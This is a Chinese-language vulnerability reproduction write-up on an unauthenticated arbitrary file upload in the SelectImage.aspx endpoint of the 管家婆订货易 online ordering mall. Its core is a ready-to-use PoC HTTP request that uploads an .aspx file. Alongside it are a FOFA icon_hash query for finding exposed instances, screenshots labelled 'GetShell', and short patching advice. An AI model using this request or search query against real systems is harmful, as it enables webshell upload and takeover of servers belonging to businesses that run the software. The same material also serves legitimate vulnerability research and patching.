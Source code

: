 
# 管家婆订货易在线商城任意文件上传漏洞复现

### 0x01 产品简介

    管家婆订货易，帮助传统企业构建专属的订货平台，PC+ 微信+APP+ 小程序+h5 商城 5 网合一，无缝对接线下的管家婆 ERP 系统，让用户订货更高效。支持业务员代客下单，支持多级推客分销，以客带客，拓展渠道。让企业的生意更轻松。

### 0x02 漏洞概述

  管家婆订货易在线商城 SelectImage.aspx 接口处存在任意文件上传漏洞，未经身份认证的攻击者可以通过该漏洞，上传恶意后门文件，深入利用可造成代码执行和服务器失陷。

### 0x03 复现环境

FOFA：icon\_hash="-1513302527"

![](assets/1700528522-2edeb0a6718db818ec38327a0c8f7c5f.png)

### 0x04 漏洞复现

PoC

```cobol
POST /DialogTemplates/SelectImage.aspx?type=titleimg&size=30*100&pageindex=1&iscallback=true HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15(KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=532c7611457d40f4ae4cd9422973416b

--532c7611457d40f4ae4cd9422973416b
Content-Disposition: form-data; name="Filedata"; filename="1.aspx"
Content-Type: image/jpeg

<% Response.Write("Test"); %>
--532c7611457d40f4ae4cd9422973416b--
```

![](assets/1700528522-aa6a149327baeb64615d1762454de251.png) 回显了完整的上传路径

![](assets/1700528522-549f111d0cdb662bb6c04a376d2ee8d1.png) GetShell

![](assets/1700528522-85ee7fe7c504df07154ead7338bfa04b.png)

![](assets/1700528522-56cdc874121aa2042512d488af898799.png)

![](assets/1700528522-9066b1e66edcb1717b894e3d119c4ba1.png) 

### 0x05 修复建议 

关闭互联网暴露面，文件上传接口处设置权限控制，添加黑白名单过滤

打补丁或升级至安全版本
